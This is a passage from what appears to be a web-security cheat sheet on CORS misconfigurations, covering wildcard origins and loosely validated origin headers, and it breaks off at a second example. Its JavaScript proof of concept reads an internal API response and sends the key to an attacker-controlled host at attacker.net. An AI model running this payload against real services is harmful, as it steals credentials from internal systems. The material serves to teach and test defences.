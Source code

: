 ### Wildcard Origin without Credentials

If the server responds with a wildcard origin `*`, **the browser does never send the cookies**. However, if the server does not require authentication, it's still possible to access the data on the server. This can happen on internal servers that are not accessible from the Internet. The attacker's website can then pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```

#### Vulnerable Implementation

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### Proof Of Concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```
### Expanding the Origin

Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.

#### Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of `example.com` will be accepted by the server.

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
#### Vulnerable Implementation (Example 2)
